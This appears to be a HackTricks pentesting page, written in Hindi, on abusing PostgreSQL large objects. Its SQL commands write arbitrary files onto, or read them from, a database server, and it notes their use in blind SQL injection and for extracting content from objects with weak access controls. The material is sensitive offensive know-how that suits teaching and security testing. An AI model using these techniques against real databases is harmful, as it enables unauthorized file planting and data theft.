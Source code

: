 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Large Objects

PostgreSQL एक संरचना प्रदान करता है जिसे **large objects** कहा जाता है, जो `pg_largeobject` तालिका के माध्यम से सुलभ है, जो बड़े डेटा प्रकारों, जैसे कि छवियों या PDF दस्तावेजों को संग्रहीत करने के लिए डिज़ाइन की गई है। यह दृष्टिकोण `COPY TO` फ़ंक्शन की तुलना में फायदेमंद है क्योंकि यह **डेटा को फ़ाइल सिस्टम में वापस निर्यात करने** की अनुमति देता है, यह सुनिश्चित करते हुए कि मूल फ़ाइल की एक सटीक प्रति बनाए रखी जाती है।

इस तालिका में **एक पूर्ण फ़ाइल** संग्रहीत करने के लिए, `pg_largeobject` तालिका में एक ऑब्जेक्ट बनाया जाना चाहिए (जिसे LOID द्वारा पहचाना जाता है), इसके बाद डेटा के टुकड़ों को इस ऑब्जेक्ट में डाला जाना चाहिए, प्रत्येक 2KB आकार का। यह महत्वपूर्ण है कि ये टुकड़े ठीक 2KB आकार के हों (अंतिम टुकड़े के संभावित अपवाद के साथ) ताकि निर्यात फ़ंक्शन सही ढंग से काम करे।

अपने बाइनरी डेटा को 2KB टुकड़ों में **विभाजित करने** के लिए, निम्नलिखित कमांड निष्पादित किए जा सकते हैं:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
फाइल को Base64 या Hex में एन्कोड करने के लिए, नीचे दिए गए कमांड का उपयोग किया जा सकता है:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**महत्वपूर्ण**: इस प्रक्रिया को स्वचालित करते समय, सुनिश्चित करें कि 2KB के स्पष्ट-टेक्स्ट बाइट्स के टुकड़े भेजें। हेक्स एन्कोडेड फ़ाइलों के लिए आकार में दोगुना होने के कारण प्रति टुकड़ा 4KB डेटा की आवश्यकता होगी, जबकि बेस64 एन्कोडेड फ़ाइलें सूत्र `ceil(n / 3) * 4` का पालन करती हैं।

बड़े ऑब्जेक्ट्स की सामग्री को डिबगिंग उद्देश्यों के लिए देखा जा सकता है:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

बाइनरी डेटा को स्टोर करने के लिए, सबसे पहले एक LOID बनाया जाता है:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
सटीक नियंत्रण की आवश्यकता वाले स्थितियों में, जैसे कि एक ब्लाइंड SQL इंजेक्शन का लाभ उठाने के लिए, `lo_create` एक निश्चित LOID निर्दिष्ट करने के लिए पसंद किया जाता है।

डेटा के टुकड़े फिर इस प्रकार डाले जा सकते हैं:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
बड़े ऑब्जेक्ट को उपयोग के बाद निर्यात करने और संभावित रूप से हटाने के लिए:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Using `lo_import` & Hex

`lo_import` फ़ंक्शन का उपयोग बड़े ऑब्जेक्ट के लिए LOID बनाने और निर्दिष्ट करने के लिए किया जा सकता है:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
निष्पादन वस्तु निर्माण के बाद, प्रति पृष्ठ डेटा डाला जाता है, यह सुनिश्चित करते हुए कि प्रत्येक टुकड़ा 2KB से अधिक न हो:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
डेटा को निर्यात किया जाता है और बड़े ऑब्जेक्ट को हटा दिया जाता है:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

यह नोट किया गया है कि **बड़े ऑब्जेक्ट्स में ACLs** (एक्सेस कंट्रोल लिस्ट) हो सकते हैं, जो आपके उपयोगकर्ता द्वारा बनाए गए ऑब्जेक्ट्स तक पहुंच को संभावित रूप से प्रतिबंधित कर सकते हैं। हालाँकि, पुराने ऑब्जेक्ट्स जिनमें उदार ACLs हैं, अभी भी सामग्री निकासी के लिए सुलभ हो सकते हैं।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
